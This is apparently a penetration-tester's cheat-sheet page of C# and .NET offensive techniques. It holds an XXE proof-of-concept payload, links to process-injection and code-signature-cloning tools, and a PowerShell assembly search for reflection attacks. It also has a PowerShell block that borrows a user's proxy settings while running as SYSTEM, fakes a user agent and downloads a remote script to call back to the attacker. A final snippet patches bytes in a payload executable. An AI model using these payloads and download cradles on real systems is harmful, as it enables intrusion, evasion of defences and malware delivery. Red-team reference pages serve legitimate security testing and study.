 # C\#

### Embeddd Dependencies

Install-Package Costura.Fody

### XXE

XMLDocument PoC:

```markup
<?xml version='1.0' ?><!DOCTYPE doc [<!ENTITY win SYSTEM 'http://127.0.0.1:8000/hi'>]><doc>&win;</doc>
```

This works on Net Framework &lt;= 4.0 if the Resolver was not explicitly set to null.

* [https://cheatsheetseries.owasp.org/cheatsheets/XML\_External\_Entity\_Prevention\_Cheat\_Sheet.html](https://cheatsheetseries.owasp.org/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.html)
* [https://www.jardinesoftware.net/2016/05/26/xxe-and-net/](https://www.jardinesoftware.net/2016/05/26/xxe-and-net/)

### Process Injection

[https://github.com/ChadSki/SharpNeedle](https://github.com/ChadSki/SharpNeedle)

### Clone Signature

It will not verify through the chain but if the program does not check the whole chain it works ;-\)

{% embed url="https://github.com/xorrior/Random-CSharpTools/tree/master/SigPirate" %}

### Look for Assemblies that can be used for Reflection Attacks

```csharp
$Assemblies = [AppDomain]::CurrentDomain.GetAssemblies()
$Assemblies |
    ForEach-Object {
        $_.Location
        $_.GetTypes()|
            ForEach-Object {
            $_ | Get-Member -Static| Where-Object {
                $_.TypeName.Equals('Microsoft.Win32.UnsafeNativeMethods')
            }
        } 2> $null
    }
```

### Dynamically resolve Proxy via PowerShell

Sometimes we execute as SYSTEM and still need to use the boxes proxy settings to call back to us. In this case we can resolve the current proxy settings from HKCU and copy them.

```text
New-PSDrive -Name HKU -PSProvider Registry -Root HKEY_USERS | Out-Null
$keys = Get-ChildItem 'HKU:\'
ForEach ($key in $keys) {if ($key.Name -like "*S-1-5-21-*") {$start = $key.Name.substring(10);break}}
$proxy=(Get-ItemProperty -Path "HKU:$start\Software\Microsoft\Windows\CurrentVersion\Internet Settings\").ProxyServer
[system.net.webrequest]::DefaultWebProxy = new-object
System.Net.WebProxy("http://$proxy")
$wc = new-object system.net.WebClient
$wc.Headers.Add('User-Agent', "Legit User Agent")
$wc.DownloadString("http://<ip>/script.ps1")
```

### Convert .NET Assembly to JScript

{% embed url="https://github.com/tyranid/DotNetToJScript" %}

### Edit Bytes in Binary

```text
$bytes = [System.IO.File]::ReadAllBytes("payload.exe")
$bytes[200] = 0xFF
[System.IO.File]::WriteAllBytes("payload.exe", $bytes)
```

